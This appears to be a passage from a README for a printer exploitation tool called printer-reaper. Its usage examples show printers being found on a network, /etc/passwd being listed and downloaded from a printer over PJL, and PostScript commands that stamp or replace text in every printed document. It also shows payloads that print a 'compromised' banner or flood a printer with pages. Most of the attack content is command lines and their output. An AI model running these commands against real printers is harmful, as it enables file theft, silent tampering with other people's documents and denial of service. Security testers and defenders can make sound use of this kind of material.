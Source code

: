 ### 📊 Monitoring (3 commands)

```bash
pagecount, status, discover
```

---

## 💻 Usage Examples

### Example 1: Network Discovery

```bash
$ python3 printer-reaper.py

Detected OS: Linux
Found 2 network(s) to scan...
Discovered printers:
192.168.1.100    HP LaserJet 4250
192.168.1.105    Brother MFC-7860DW
```

### Example 2: File Exfiltration (PJL)

```bash
$ python3 printer-reaper.py 192.168.1.100 pjl

192.168.1.100:/> ls /etc
-  834  passwd
-  156  hosts

192.168.1.100:/> download /etc/passwd
Downloaded passwd to ./passwd

192.168.1.100:/> cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
```

### Example 3: Print Job Manipulation (PostScript)

```bash
$ python3 printer-reaper.py 192.168.1.100 ps

192.168.1.100:ps> cross "CONFIDENTIAL - DO NOT DISTRIBUTE"
Text will be added to all printed pages

192.168.1.100:ps> replace "Public" "Top Secret"
Will replace 'Public' with 'Top Secret' in all documents
```

### Example 4: Payload Execution (PostScript)

```bash
192.168.1.100:ps> payload banner PRINTER COMPROMISED
Payload 'banner' executed

192.168.1.100:ps> payload storm 100
Payload 'storm' executed - 100 pages will print
```
